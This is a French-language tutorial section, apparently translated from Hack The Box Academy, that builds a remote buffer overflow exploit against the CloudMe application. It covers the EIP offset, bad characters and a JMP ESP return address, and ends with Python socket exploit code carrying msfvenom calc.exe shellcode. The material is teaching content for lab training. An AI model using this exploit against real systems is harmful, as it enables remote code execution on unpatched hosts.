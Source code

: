 Créer un exploit à distance
=========================

* * * * *

Après avoir fuzzé le port d'écoute, les étapes restantes d'identification et d'exploitation du débordement de tampon doivent être en grande partie les mêmes que pour l'exploitation du débordement de tampon local. Les principales étapes que nous avons suivies dans les sections précédentes étaient :

1. Paramètres de fuzzing
2. Contrôler l'EIP
3. Identifier les mauvais personnages
4. Trouver une instruction de retour
5. Passer au Shellcode

Une fois le fuzzing terminé, nous allons parcourir les étapes restantes de cette section jusqu'à ce que nous puissions exploiter avec succès la vulnérabilité de dépassement de mémoire tampon.

* * * * *

Contrôle de l'EIP
---------------

Nous allons commencer par créer un modèle unique de `2000` octets de long, en utilisant `ERC --pattern c 2000` comme nous l'avons fait précédemment : ![Remote Pattern](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_pattern.jpg)

Nous commençons maintenant à écrire notre fonction `eip_offset()` . Nous ajouterons notre variable `pattern` comme avec le modèle sous `Ascii` dans le fichier `Pattern_Create_1.txt` créé sur notre bureau, comme nous l'avons fait avec notre exploit précédent. Après cela, pour envoyer notre modèle, nous pouvons utiliser le même code que nous avons utilisé pour fuzzer le port :

Code : python

```
def eip_offset():
    pattern = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
                    ...SNIP...
                    "5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co", "utf-8")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(pattern)
    s.close()

eip_offset()

```

Une fois que notre fonction `eip_offset()` est prête, nous pouvons redémarrer notre programme dans `x32dbg` et exécuter notre code, et notre programme devrait planter, et nous devrions voir `EIP` écrasé par notre modèle comme `316A4230` : ![Pattern Crash](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_pattern_crash.jpg)

Nous pouvons maintenant utiliser `ERC --pattern o 1jB0` pour calculer le décalage exact, qui se trouve à `1052` octets :

![Décalage de motif](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_pattern_offset.jpg)

Maintenant, pour nous assurer que nous pouvons contrôler la valeur exacte à `EIP`, nous allons utiliser la même fonction `eip_control()` de notre exploit précédent (tout en modifiant `offset`), mais en utilisant `socket` pour envoyer notre charge utile à la place de l'écrire dans un fichier :

Code : python

```
def eip_control():
    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

eip_control()

```

Nous allons à nouveau redémarrer notre programme et exécuter notre exploit, et nous pouvons confirmer que nous contrôlons `EIP` car nous avons remplacé `EIP` par 4 `B` : ![Pattern Control](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_pattern_control.jpg)

* * * * *

Identifier les mauvais personnages
--------------------------

Notre prochaine étape consiste à déterminer si nous devons éviter d'utiliser de mauvais caractères dans notre entrée. Nous pouvons commencer par exécuter `ERC --bytearray` dans `x32dbg` pour créer notre fichier `ByteArray_1.bin` . Ensuite, nous pouvons copier les mêmes fonctions `bad_chars()` de notre exploit précédent, et encore une fois passer de l'écriture de la charge utile dans un fichier à son envoi vers le port :

Code : python

```
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])

    offset = 1052
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

bad_chars()

```

Une fois que nous avons redémarré notre programme dans `x32dbg` et exécuté notre exploit, nous pouvons utiliser `ERC --compare` pour comparer les octets à l'adresse `ESP` avec le fichier `ByteArray_1.bin` : ![Bytes Compare](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_bytes_compare.jpg)

Comme nous pouvons le voir, tous les octets correspondent entre la mémoire et `ByteArray_1.bin`, ce qui signifie que ce programme n'a pas de mauvais caractères.

* * * * *

Trouver une instruction de retour
-------------------------------------

Maintenant que nous avons le contrôle sur `EIP` et que nous savons quels mauvais caractères éviter dans notre charge utile, nous devons trouver une instruction pour exécuter la charge utile que nous placerons sur la pile. Encore une fois, puisque ce programme n'a pas de mauvais caractères, nous pouvons utiliser l'adresse `ESP` comme adresse de retour. (Essayez d'exploiter le programme en utilisant `ESP` comme adresse de retour).

Cependant, nous préférerons utiliser une adresse d'une instruction construite dans le programme pour nous assurer qu'elle fonctionnera sur n'importe quel système, car ces instructions seront les mêmes sur n'importe quel système. Donc, nous allons d'abord obtenir une liste des modules et bibliothèques chargés par le programme, et nous ne considérerons que ceux qui ont `False` pour toutes les protections, qui sont les suivants :

```
------------------------------------------------------------------------------------------------------------------------
Process Name: CloudMe Modules total: 79
------------------------------------------------------------------------------------------------------------------------
 Base          | Entry point   | Size      | Rebase   | SafeSEH  | ASLR    | NXCompat | OS DLL  | Version, Name and Path
------------------------------------------------------------------------------------------------------------------------
 0x400000        0x14c0          0x431000    False      False      False      False      False      C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\CloudMe.exe
 0x61b40000      0x1410          0x5f6000    False      False      False      False      False      5.9.0.0;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\Qt5Gui.dll
 0x69900000      0x1410          0x1c1000    False      False      False      False      False      5.9.0.0;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\Qt5Network.dll
 0x6d9c0000      0x1410          0x4c000     False      False      False      False      False      5.9.0.0;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\Qt5Sql.dll
 0x66e00000      0x1410          0x3d000     False      False      False      False      False      5.9.0.0;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\Qt5Xml.dll
 0x6eb40000      0x1410          0x24000     False      False      False      False      False      C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\libgcc_s_dw2-1.dll
 0x6fe40000      0x1410          0x17e000    False      False      False      False      False      C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\libstdc++-6.dll
 0x64b40000      0x1410          0x1b000     False      False      False      False      False      1,;WinPthreadGC;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\libwinpthread-1.dll
 0x6aa80000      0x1410          0x1b7000    False      False      False      False      False      5.9.0.0;C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe\platforms\qwindows.dll

```

Comme nous pouvons le voir, plusieurs bibliothèques sont chargées par le programme sans protection de la mémoire, y compris le programme `CloudMe.exe` lui-même. Pour tous les rechercher `JMP ESP`, nous pouvons accéder à l'onglet `CPU` et cliquer avec le bouton droit de la souris, puis sélectionner `Rechercher>Tous les modules>Commande` et entrer `JMP ESP`, et nous obtiendrons une liste d'instructions `JMP ESP` dans les modules chargés : ![Find JMP](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_find_jmp_1.jpg)

Si nous n'avions trouvé aucun résultat, nous pourrions rechercher le modèle `FFE4` dans l'ensemble du module ou dans tous les modules, comme indiqué dans une section précédente. Nous pouvons également rechercher d'autres instructions utiles, comme `54C3`. Dans notre cas, après avoir double-cliqué sur le premier résultat pour nous assurer qu'il s'agit bien de `JMP ESP`, nous pouvons copier l'adresse `0069D2E5` et l'utiliser dans notre exploit. (Essayez de trouver d'autres instructions et utilisez-les comme adresse de retour).

* * * * *

Passer au Shellcode
--------------------

Notre dernière étape consiste à exploiter le programme, nous allons donc commencer par créer notre shellcode avec `msfvenom` pour ouvrir `calc.exe` comme preuve d'une exploitation réussie :

```
dsgsec@htb[/htb]$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'

...SNIP...
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
...SNIP...

```

Maintenant, pour créer notre fonction `exploit()` finale, nous allons d'abord ajouter la sortie ci-dessus et utiliser la même `charge utile` de notre exploit précédent (tout en modifiant `offset` et l'adresse dans `eip`). Enfin, nous utiliserons le même code de `bad_chars()` pour envoyer notre charge utile au port :

Code : python

```
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'
    buf = b""
    ...SNIP...
    buf += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

    offset = 1052
    buffer = b"A"*offset
    eip = pack('<L', 0x0069D2E5)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

```

Enfin, nous pouvons exécuter `CloudMe` (pas nécessairement dans `x32dbg`) et exécuter notre exploit, et nous devrions le voir planter, et une calculatrice devrait s'ouvrir.
